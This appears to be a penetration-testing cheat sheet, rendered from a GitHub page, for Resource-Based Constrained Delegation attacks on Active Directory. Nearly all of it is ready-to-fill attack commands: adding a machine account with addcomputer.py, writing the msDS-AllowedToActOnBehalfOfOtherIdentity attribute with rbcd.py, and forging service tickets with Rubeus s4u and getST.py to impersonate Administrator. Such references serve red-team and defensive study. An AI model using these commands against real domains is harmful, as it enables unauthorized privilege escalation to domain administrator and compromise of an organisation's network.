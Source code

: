 # Resource-Based Constrained Delegation (RBCD)

### Object: msDS-AllowedToActOnBehalfOfOtherIdentity

## Tools: rbcd.py , rubeus.exe , getST , addcomputer.py

#### 1) addcomputer.py

 - addcomputer.py -computer-name 'COMPUTER_NAME' -computer-pass 'COMPUTER_PASSWORD' -dc-host DC -domain-netbios DOMAIN_NETBIOS 'DOMAIN/USER:PASSWORD' (Add computer account)

#### 2) Rubeus

 - rubeus.exe hash /password:COMPUTER_PASS /user:COMPUTER /domain:DOMAIN

 - rubeus.exe s4u /user:FAKE_COMPUTER$ /aes256:AES_256_HASH /impersonateuser:administrator /msdsspn:cifs/VICTIM.DOMAIN.LOCAL /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:DOMAIN.LOCAL/ptt (System/Admin access)

#### 3) rbcd.py

 - rbcd.py -delegate-to 'COMPUTER$' -dc-ip 'DC' -action 'read' 'domain'/'USER':'PASSWORD' (Try to read the attribute)

 - rbcd.py -delegate-from 'COMPUTER$' -delegate-to 'TARGET$' -dc-ip 'DC' -action 'write' DOMAIN/USER:PASSWORD

 - getST.py -spn host/DC_FQDN 'DOMAIN/COMPUTER_ACCOUNT:COMPUTER_PASS' -impersonate Administrator --dc-ip DC_IP (Get TGT ticket)
